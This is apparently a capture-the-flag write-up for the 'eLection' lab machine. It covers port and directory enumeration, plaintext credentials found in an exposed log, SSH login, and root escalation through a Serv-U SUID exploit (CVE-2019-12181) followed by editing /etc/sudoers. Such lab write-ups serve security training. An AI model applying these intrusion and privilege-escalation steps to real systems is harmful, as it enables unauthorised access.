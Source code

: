 # eLection

| Name        | Lampiao                       |
| ----------- | ----------------------------- |
| Dificultad: | Intermediate                  |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds |

```shell
192.168.157.211
```

## Enumeration
### Nmap
```shell
nmap 192.168.157.211 -sV -sC -p- --min-rate=1000

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


sudo nmap 192.168.157.211 -p- --min-rate=1000 -sU
```
### Ffuf
```shell
ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/common.txt -u http://192.168.157.211/FUZZ

ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://192.168.157.211/FUZZ
```
![01-eLection](00-Assets/01-eLection.png)

```shell
javascript
phpmyadmin
phpinfo.php
robots.txt
server-status
election
```
#### robots.txt
```shell
http://192.168.157.211/robots.txt

admin
wordpress
user
election
```
### Web Enumeration - /election
```shell
http://192.168.157.211/election/
```

We have found a web service running a web-based election system called eLection.
- https://sourceforge.net/projects/election-by-tripath/

And for this service we found the following exploit:
- https://www.exploit-db.com/exploits/48122
- https://medium.com/@h.kehn1/election-2-0-authenticated-remote-code-execution-vulnerability-f603491adb74
But it is an authenticated SQLi, then we need credentials.

```shell
ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/common.txt -u http://192.168.157.211/election/FUZZ

admin
data
media
themes
```
- The `/admin` subdirectory looks interesting
![01-eLection-1](00-Assets/01-eLection-1.png)
- Is asking for a admin's ID, let's search for default credentials
![01-eLection-2](00-Assets/01-eLection-2.png)

![01-eLection-3](00-Assets/01-eLection-3.png)
- We tried the default password but it did not work, then we must to find a possible password. Let's keep enumerating
#### /election/admin
We must take into consideration that `/admin` does not look like an endpoint but is more like a subdirectory, what if we continue enumerating subdirectories then?
```shell
ffuf -w /home/kali/Documents/SecLists/Discovery/Web-Content/common.txt -u http://192.168.157.211/election/admin/FUZZ

ajaz
components
css
img
inc
js
logs
plugins
```

```shell
http://192.168.157.211/election/admin/logs/

Love
love

P@$$w0rd@123
```
- We found a log file with a pair of credentials

![01-eLection-4](00-Assets/01-eLection-4.png)
- This password didn't work


## Foothold
With the user and password we found we can't connect to the eLection service but we know there is another service running that works with credentials.
### SSH Connection
```shell
ssh love@192.168.157.211
P@$$w0rd@123
```
![01-eLection-5](00-Assets/01-eLection-5.png)


## Privilege Escalation
### Basic Enumeration
```shell
sudo -l
sudo -V
```

```shell
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null | grep -v "/proc/" | grep -v "/sys/"
```
### SUID
```shell
find / -perm -u=s -type f 2>/dev/null

/usr/bin/traceroute6.iputils
/usr/local/Serv-U/Serv-U
/usr/lib/eject/dmcrypt-get-device
```
![01-eLection-6](00-Assets/01-eLection-6.png)
- There are some interesting binaries with SUID permissions, let's explore them:
#### /usr/bin/traceroute6.iputils
Nothing here.

#### /usr/local/Serv-U/Serv-U
We found two exploit for privilege escalation. The first one compiling a `c` binary:
- https://www.exploit-db.com/exploits/47009
And the second one a bash script file:
- https://www.exploit-db.com/exploits/47173

#### CVE-2019-12181 - EDB-ID-47173 - .sh
- https://www.exploit-db.com/exploits/47173
```shell
chmod +x ./SUroot

./SUroot
```
![01-eLection-7](00-Assets/01-eLection-7.png)
- At this point we can execute root commands but we don't have a shell as root
### Shell as Root
Some options are to add a new user, modify the `/etc/passwd` file, or modify the `/etc/sudoers` file. Let's try the last one:
```shell
nano /etc/sudoers

love ALL=(ALL:ALL) ALL
```
![01-eLection-8](00-Assets/01-eLection-8.png)

```shell
sudo su
```
![01-eLection-9](00-Assets/01-eLection-9.png)


# Flags
```shell
/home/love/local.txt
/root/proof.txt
```


